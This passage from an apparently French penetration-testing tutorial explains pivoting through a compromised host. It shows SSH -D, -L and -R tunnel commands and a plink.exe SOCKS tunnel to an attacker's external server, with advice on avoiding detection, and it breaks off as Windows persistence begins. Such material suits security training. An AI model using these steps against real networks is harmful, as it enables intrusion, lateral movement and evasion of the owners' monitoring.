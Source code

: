 ## Techniques de pivoting et tunneling

Le pivoting consiste à utiliser un système compromis comme point de rebond pour accéder à d'autres systèmes ou segments de réseau autrement inaccessibles. Cette technique est essentielle pour étendre son empreinte dans une infrastructure segmentée.

### SSH Tunneling

SSH offre des capacités de tunneling puissantes et flexibles, permettant de créer différents types de proxies :

Le tunneling dynamique (-D) crée un proxy SOCKS local qui peut être utilisé pour acheminer tout le trafic à travers le système compromis :

```
ssh -D 1080 utilisateur@systeme-compromis
```

Cette commande crée un proxy SOCKS sur le port local 1080. Les applications configurées pour utiliser ce proxy peuvent accéder aux ressources du réseau interne via le système compromis.

Le tunneling local (-L) permet de rediriger un port local vers un port distant via le système compromis :

```
ssh -L 3389:serveur-interne:3389 utilisateur@systeme-compromis
```

Cette commande redirige le port local 3389 vers le port 3389 du serveur-interne via le système compromis, permettant d'accéder à un service RDP interne comme s'il était local.

Le tunneling distant (-R) permet de rediriger un port du système compromis vers un port de la machine de l'attaquant :

```
ssh -R 8080:localhost:80 attaquant@serveur-externe
```

Cette commande, exécutée sur le système compromis, redirige son port 8080 vers le port 80 de la machine de l'attaquant, permettant d'accéder à un service interne depuis l'extérieur.

Du point de vue OPSEC, les connexions SSH sont généralement bien journalisées, mais le contenu des tunnels est chiffré. Pour minimiser les risques de détection, il est recommandé d'utiliser des ports standards (comme 443) pour les connexions sortantes et de limiter la durée et la fréquence des sessions.

### Plink (PuTTY Link)

Plink, la version en ligne de commande de PuTTY, permet d'établir des tunnels SSH depuis des systèmes Windows :

```
plink.exe -D 1080 -pw motdepasse utilisateur@serveur-externe
```

Cette commande crée un proxy SOCKS sur le port local 1080, similaire à l'option -D de SSH.

Pour une persistance automatique, plink peut être combiné avec des mécanismes de démarrage Windows :
